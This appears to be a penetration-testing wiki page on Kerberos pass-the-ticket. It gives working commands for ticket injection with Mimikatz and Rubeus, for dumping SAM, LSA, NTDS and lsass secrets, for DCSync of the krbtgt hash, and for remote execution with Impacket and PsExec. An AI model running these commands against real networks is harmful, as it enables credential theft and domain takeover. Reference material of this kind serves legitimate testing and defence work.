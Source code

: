 # Pass the ticket
MITRE ATT&CK™ Sub-technique T1550.003


>Overpass-the-hash, silver ticket and golden ticket attacks are used by attackers to obtain illegitimate tickets. A ticket \(TGT or service ticket, forged or not\) can then be used to authenticate t o a system using Kerberos without knowing any password. This is called pass-the-ticket.

### Injecting the ticket
* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
kerberos::ptt $ticket_kirbi_file
```

```bash
Rubeus.exe ptt /ticket:$ticket_kirbi_file
```

It is then possible to list the tickets in memory using the `klist` command.

### Passing the ticket
* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)\).

```bash
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```

Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```